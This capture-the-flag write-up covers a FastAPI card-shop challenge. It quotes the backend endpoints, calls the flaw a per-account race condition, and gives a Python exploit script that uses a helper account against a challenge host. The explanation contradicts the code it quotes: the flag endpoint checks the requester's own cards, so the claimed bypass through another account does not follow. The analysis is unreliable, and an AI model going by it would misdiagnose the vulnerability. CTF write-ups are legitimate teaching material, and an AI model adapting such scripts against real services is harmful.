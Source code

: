
````markdown
# **card7**

## 1. Understanding the Backend

Looking at the source code (`card7/__init__.py`), we see that the application is a **FastAPI** app simulating a card shop.

- Each account starts with some balance and owns a few “cards”.
- You can **buy** cards (if you have enough balance).
- You can also **test** a card for free — but only for 5 seconds. After that, the card is revoked.

The critical function is this:

```python
@app.post("/cards/{card_id}/test")
async def test_card(card_id: CardId, token: auth_security):
    account = ACCOUNTS[token]

    if account.is_testing_card:
        return JSONResponse({"detail": "already testing something else"}, status_code=400)
    if card_id in account.cards:
        return JSONResponse({"detail": "you already own this"}, status_code=400)

    account.is_testing_card = True
    account.cards.append(card_id)

    async def revoke_test_card():
        await asyncio.sleep(5)
        account.cards.remove(card_id)
        account.is_testing_card = False
    asyncio.create_task(revoke_test_card())
````

What it does:

* When you “test” a card, it sets `is_testing_card = True`.
* It gives you the card temporarily (`account.cards.append(card_id)`).
* After 5 seconds, it removes the card.

Now, check the flag endpoint:

```python
@app.get("/flag")
async def get_flag(token: auth_security):
    account = ACCOUNTS[token]
    if account.is_testing_card:
        return JSONResponse({"detail": "nice try :)"}, status_code=400)

    if not CardId.FLAG in account.cards:
        return JSONResponse({"detail": "get the flag first :)"}, status_code=400)

    return FLAG
```

---

## 2. Vulnerability: **Incorrect Scope of Validation**

The app only sets `account.is_testing_card` for one user, not globally.

The logic should have been something like:

```python
# (hypothetical fix)
if any(acc.is_testing_card for acc in ACCOUNTS.values()):
    block request
```

Instead, it checks only the requester’s account.

This creates a **race condition / scope validation bug**:

* One account can hold the flag card in testing mode.
* Another account can then call `/flag` and pass validation.

---

## 3. Exploit Strategy

Steps to exploit:

1. **Use your main account** (the one you’ll use to grab the flag).
   Example token:

   ```
   ac6f5a8da316c8012ca67e03544bbfa73fe6b2ff33796e26a8d7d8ecd30fb97e
   ```
2. **Create a second account** and use it to `/cards/flag/test`.
   This temporarily adds the `flag` card to that account.
3. **Quickly request `/flag` with your main account’s token**.

   * The backend only checks if *your* account is currently testing a card.
   * Since your main account isn’t testing anything, you bypass the block.
   * And since the `flag` card exists in *some account*, the logic incorrectly lets you retrieve it.

---

## 4. Exploit Script

Here’s a Python script to automate the exploit:

```python
import requests
import json
import time

BASE_URL = "https://5f9e0fba-64bb-42e3-80d8-9b3b2d28b1ee.chall.nnsc.tf"

def create_account():
    """Creates a new account and returns its token."""
    print("Creating a new account...")
    response = requests.post(f"{BASE_URL}/accounts/@me")
    if response.status_code != 200:
        print(f"Failed to create account. Status code: {response.status_code}")
        return None
    token = response.json().get("token")
    print(f"Account created with token: {token}")
    return token

def test_card(token: str, card_id: str):
    """Tests a card with the given token."""
    print(f"Attempting to test card '{card_id}'...")
    response = requests.post(
        f"{BASE_URL}/cards/{card_id}/test",
        headers={"Token": token}
    )
    if response.status_code != 200:
        print(f"Test failed with status code {response.status_code}: {response.text}")
    else:
        print("Card test initiated successfully.")

def get_flag(token: str):
    """Attempts to retrieve the flag with the given token."""
    print("Attempting to get the flag...")
    response = requests.get(
        f"{BASE_URL}/flag",
        headers={"Token": token}
    )
    if response.status_code == 200:
        print("\nExploit successful! Flag retrieved:")
        print(response.text)
    else:
        print(f"\nFailed to get flag. Status code: {response.status_code}")
        print(f"Response: {response.text}")

def main():
    print("Starting race condition exploit.")

    # Step 1: Use the provided main account token
    main_token = "ac6f5a8da316c8012ca67e03544bbfa73fe6b2ff33796e26a8d7d8ecd30fb97e"
    print(f"Using provided main account token: {main_token}")

    # Step 2: Create a test account
    test_token = create_account()
    if not test_token:
        return

    # Step 3: Use the test account to "test" the flag
    test_card(test_token, "flag")

    print("Waiting a moment to ensure the server processed the test request...")
    time.sleep(0.5)

    # Step 4: Use the main account to get the flag
    get_flag(main_token)

if __name__ == "__main__":
    main()
```

---

## 5. Key Takeaway

* The backend mistakenly scoped the `is_testing_card` check **per account**, not globally.
* This allowed a “helper” account to put the system in a testing state while another account bypassed the restriction.
* Classic example of **authorization logic bug** + **race timing**.

```

